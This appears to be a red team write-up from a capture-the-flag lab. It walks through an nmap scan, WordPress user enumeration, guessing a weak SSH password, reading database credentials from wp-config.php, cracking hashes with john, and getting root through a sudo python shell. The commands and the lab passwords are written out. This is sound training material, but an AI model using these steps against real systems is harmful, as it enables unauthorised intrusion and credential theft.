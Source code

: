 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:
![](images/User.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110
password: michael
![](images/Michael-Password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag1.png)
![](images/Flag 2.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     Command: cd /var/www/
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account
command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p
password: R@v3nSecurity
  mysql> use wordpress;
        show table;
        SELECT * FROM wp_users;
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege
Command: ssh steven@192.168.1.110
password: pink84
        :sudo -l
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        :cd /root
        :ls -al
        :cat falg4.txt
        
![](images/flag4.png)



